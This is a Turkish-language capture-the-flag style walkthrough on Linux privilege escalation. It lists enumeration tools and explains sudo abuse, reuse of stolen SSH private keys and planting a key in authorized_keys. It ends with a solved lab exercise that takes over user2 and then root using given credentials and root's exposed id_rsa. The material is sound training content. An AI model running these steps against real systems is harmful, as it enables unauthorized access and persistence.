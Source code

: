 ```yaml
---
icon: material/help
---
```


# Privilege Escalation

Uzak bir sunucuya ilk erişim genellikle düşük ayrıcalıklı bir kullanıcı bağlamında olur. Tam erişim elde etmek için, ayrıcalıklar, kök kullanıcısına yükseltilmelidir. Bunun için dahili/yerel bir güvenlik açığı bulmak gerekir.

## PrivEsc Checklist

* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings)

## Enumeration Scripts

* [LinEnum](https://github.com/rebootuser/LinEnum)
* [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
* [Seatbelt](https://github.com/GhostPack/Seatbelt)
* [JAWS](https://github.com/411Hall/JAWS)
* [PEASS](https://github.com/carlospolop/PEASS-ng)

## Kernel Exploits

Eski bir işletim sistemi çalıştıran bir sunucuyla karşılaştığımızda potansiyel kernel açıklarını aramalıyız. Sunucunun en son güncellemeler ve yamalarla bakımının yapılmadığını varsayalım. Bu durumda, sunucunun, kernel açıklarına karşı savunmasız olması muhtemeldir. Kernel istismarları sistem kararsızlığına neden olabilir. Bu istismarları laboratuvar ortamında denemek ve yalnızca müşterinin açık onayı ve koordinasyonu ile çalıştırmak gerekir.

## Vulnerable Software

Sistemde yüklü yazılımlar için istismarlar aranmalıdır.

## User Privileges

Linux `#!bash sudo` komutu, kullanıcının, farklı bir kullanıcı olarak komut yürütmesine olanak tanır. Aşağıdaki komut ile `#!bash sudo` ayrıcalıkları kontrol edilebilir:

```bash
sudo -l
```

Herhangi bir komut başka bir kullanıcı olarak çalıştırılabilir:

```bash
sudo -u john /bin/echo Hello World!
```

Aşağıda verilen sayfalar ayrıcalık yükseltmek amacıyla kullanılan bazı faydalı komutları/uygulamaları içerir:

* [GTFOBins](https://gtfobins.github.io/)
* [LOLBAS](https://lolbas-project.github.io)

## Exposed Credentials

Kimlik bilgilerini açığa çıkarmak için, yapılandırma dosyalarına, log dosyalarına ve komut geçmişi dosyalarına bakılabilir.

## SSH Keys

Belirli bir kullanıcı için `.ssh` dizinini okuma yetkimiz olsun. Bu durumda dizinde bulunan özel SSH anahtarı oturum açmak için kullanılabilir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 ~/.ssh/id_rsa
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i ~/.ssh/id_rsa
```

Belirli bir kullanıcı için `.ssh` dizinine yazma yetkimiz olsun. Bu durumda kendi üreteceğimiz bir açık anahtarı dizinde bulunan `authorized_keys` dosyasına yerleştirebiliriz. Bu teknik, shell erişimi kazandıktan sonra SSH erişimi elde etmek için kullanılır. Mevcut SSH yapılandırması diğer kullanıcılar tarafından yazılan anahtarları kabul etmeyecektir.

Öncelikle yeni bir anahtar çifti oluşturmalıyız:

```bash
ssh-keygen -f Key
```

Bu komut iki adet dosya üretecektir:

1. Key
2. Key.pub

Key.pub anahtarı uzak makinedeki `authorized_keys` dosyasına kopyalanmalıdır:

```bash
cat Key.pub >> ~/.ssh/authorized_keys
```

Bu sayede uzak sunucu özel anahtarımızı kullanarak oturum açmamıza izin verecektir.

Gizli anahtarın izin bilgisini değiştir:

```bash
chmod 600 Key
```

Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

```bash
ssh user@10.10.10.10 -i Key
```

## Questions

```text
SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
```

??? tip "Steps"

    User1 kullanıcısı ile SSH bağlantısı gerçekleştir (parola olarak `password1` kullan):

    ```bash
    ssh user1@94.237.53.58 -p 30018
    ```

    Ardından aşağıdaki komutu çalıştır:

    ```bash
    sudo -l
    ```

    ```text title="Output"
    Matching Defaults entries for user1 on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User user1 may run the following commands on ng-954801-gettingstartedprivesc-kwfvw-5d9799dc6d-dwnb4:
        (user2 : user2) NOPASSWD: /bin/bash
    ```

    Çıktıda görüldüğü üzere user2 kullanıcısı parola kullanmadan Bash shell çalıştırabiliyor. Bu bilgiden hareketle user2 kullanıcısına geçiş yap:

    ```bash
    sudo -u user2 /bin/bash
    ```

    Flag dosyasının içeriğini görüntüle:

    ```bash
    cat /home/user2/flag.txt
    ```

```text
Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
```

??? tip "Steps"

    User2 kullanıcısı ile aşağıdaki komutu çalıştır:

    ```bash
    ls -al /root/.ssh
    ```

    ```text title="Output"
    total 20
    drwxr-x--- 1 root user2 4096 Feb 12  2021 .
    drwxr-x--- 1 root user2 4096 Feb 12  2021 ..
    -rw------- 1 root root   571 Feb 12  2021 authorized_keys
    -rw-r--r-- 1 root root  2602 Feb 12  2021 id_rsa
    -rw-r--r-- 1 root root   571 Feb 12  2021 id_rsa.pub
    ```

    Çıktıda görüldüğü üzere `root` kullanıcısına ait özel anahtar herkes tarafından okunabilir durumdadır. Bu dosyanın içeriğini kopyala ve ardından mevcut SSH bağlantısını sonlandır.

    Kopyaladığın özel anahtar bilgisini yerel makinede yeni bir dosyaya kaydet. Bunu yaparken dosya satır sınırlayıcısının LF formatında olduğundan ve dosya sonunda boş bir satır olduğundan emin ol!

    Gizli anahtarın izin bilgisini değiştir:

    ```bash
    chmod 600 private_key_file
    ```

    Gizli anahtarı kullanarak SSH bağlantısı gerçekleştir:

    ```bash
    ssh root@94.237.53.58 -p 30018 -i private_key_file
    ```

    Cevabı elde etmek için soruda belirtilen dosyanın içeriğini görüntüle:

    ```bash
    cat /root/flag.txt
    ```

